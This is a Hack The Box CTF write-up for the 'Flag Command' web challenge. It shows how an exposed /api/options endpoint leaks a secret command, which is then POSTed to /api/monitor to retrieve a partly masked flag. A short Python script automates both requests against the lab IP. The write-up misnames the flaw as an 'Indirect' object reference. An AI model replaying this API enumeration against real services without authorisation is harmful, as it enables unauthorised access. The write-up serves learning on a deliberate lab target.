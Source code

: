 ```yaml
---
date:
  created: 2025-08-01
categories:
  - CTF Writeup
  - Hackthebox
  - Web Application Penetration Testing
authors:
  - dibsy
---
```


# Flag Command Writeup

### Summary

The application has an IDOR (Indirect Object Reference) vulnerability which can be used to retrieve the flag.

<!-- more -->

### Exploitation

No source code was provided for this challenge. Looking through the API calls over burp proxy revealed a particular API which had a list of commands in it.

!!! info "GET http://94.237.48.12:55286/api/options"
```json 

{
  "allPossibleCommands": {
    "1": [
      "HEAD NORTH",
      "HEAD WEST",
      "HEAD EAST",
      "HEAD SOUTH"
    ],
    "2": [
      "GO DEEPER INTO THE FOREST",
      "FOLLOW A MYSTERIOUS PATH",
      "CLIMB A TREE",
      "TURN BACK"
    ],
    "3": [
      "EXPLORE A CAVE",
      "CROSS A RICKETY BRIDGE",
      "FOLLOW A GLOWING BUTTERFLY",
      "SET UP CAMP"
    ],
    "4": [
      "ENTER A MAGICAL PORTAL",
      "SWIM ACROSS A MYSTERIOUS LAKE",
      "FOLLOW A SINGING SQUIRREL",
      "BUILD A RAFT AND SAIL DOWNSTREAM"
    ],
    "secret": [
      "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"
    ]
  }
}
```

On sending a command over HTTP to the endpoint /api/monitor/ revealed the next actions; which can be failed, or require next command. The most important observation from the above response is the secret message. This secret command reveals the flag.

!!! info "POST /api/monitor"
```http
Host: 94.237.48.12:55286
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Referer: 94.237.48.12:55286
Content-Length: 69
Content-Type: application/json

{"command": "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"}
```
```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.11.8
Date: Wed, 30 Jul 2025 11:39:25 GMT
Content-Type: application/json
Content-Length: 76
Connection: close

{
  "message": "HTB{D3v3l0p3r_t00l5_4r3.........}"
}
```

### Automation

```python
import requests
import json

IP = "94.237.48.12:55286"

headers = {
    "User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36",
    "Accept":"*/*",
    "Referer": IP
}

proxies = {
    "http":"127.0.0.1:8080"
}

# Retrieve Secret
r = requests.get(f"http://{IP}/api/options",headers=headers,proxies=proxies)

data = r.json()
secret = data["allPossibleCommands"]["secret"][0]

secret_data = { "command": secret }

r = requests.post(f"http://{IP}/api/monitor",json=secret_data,proxies=proxies,headers=headers)
print(r.text)
```
